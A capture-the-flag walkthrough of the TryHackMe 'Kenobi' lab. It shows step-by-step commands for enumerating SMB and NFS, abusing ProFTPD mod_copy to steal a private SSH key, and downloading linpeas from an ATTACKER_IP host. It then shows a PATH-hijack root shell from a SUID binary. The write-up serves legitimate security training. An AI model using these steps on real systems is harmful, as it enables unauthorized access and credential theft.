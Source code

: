 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |   Easy     |  | 10.10.243.180 |  | [Kenobi](https://tryhackme.com/room/kenobi) |  |

---

We start things off with a basic `nmap` scan on the server. We can run 2 scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that 7 ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 & 445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba (SMB) shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, 3 shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`:

```
smbclient //10.10.243.180/SHARE_NAME
```

I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to supply a password.

Once in, we can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a single text file: **log.txt**

**log.txt** was a ProFTPD configuration file which gave us a lot of interesting and potentially useful information about the server. I took note of the file and moved on first.

Next, let's tackle port **111**, which hosts **RPC**. 

---

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

---

In our case, port 111 gives us access to the **Network File System (NFS)** protocol, which runs using RPC. We can use `nmap` to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's move on to the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To do so, we can use `nc` to connect to the FTP server and find out the version from the response banner:

```
nc 10.10.243.180 21
```

The response tells us that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

Remember the **log.txt** file from earlier? It actually reveals that the **private SSH key** of the user, kenobi, can be found in /home/kenobi/.ssh/id_rsa. Since we know that we can mount onto and access /var on the target machine, we can copy kenobi's private key over to /var and obtain it there.

With the private key, we'll then be able to access the machine via SSH as the user kenobi!

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home directory to the **/var/tmp** directory on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory called 'kenobiNFS' in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the /var/tmp directory on the target machine by visting /mnt/kenobiNFS/ on our local machine:

![screenshot7](../assets/images/kenobi/screenshot7.png)

We can then obtain the private key file!

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions of the key are set to be **read and write by owner only**. We do this with `chmod`:

```
chmod 600 id_rsa  // 400 works too
```

With the permissions set, let's now ssh into the machine as kenobi:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's home directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. 

To find these SUID-bit set binaries, the room taught me to use the `find` command:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) instead.

To transfer LinPEAS over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the linpeas.sh script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port 8000. 

Next, I used `wget` on the target machine to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting binary that had its SUID-bit set: **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running this binary, we are presented with some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID-bit being set).

Using the `strings` command, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. using `curl` instead of `/usr/bin/curl`).

Hence, we can manipulate our **PATH** to exploit this and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is fully accessible by setting its permissions to be read-write-executable by all users:

```
chmod 777 curl
```

Next, we put its file location into our **PATH**. In my case, since I created the `curl` file in /tmp, I'll add that directory into my PATH:

```
export PATH=/tmp:$PATH
```

Now, when /usr/bin/menu is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in /tmp first and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from /root.





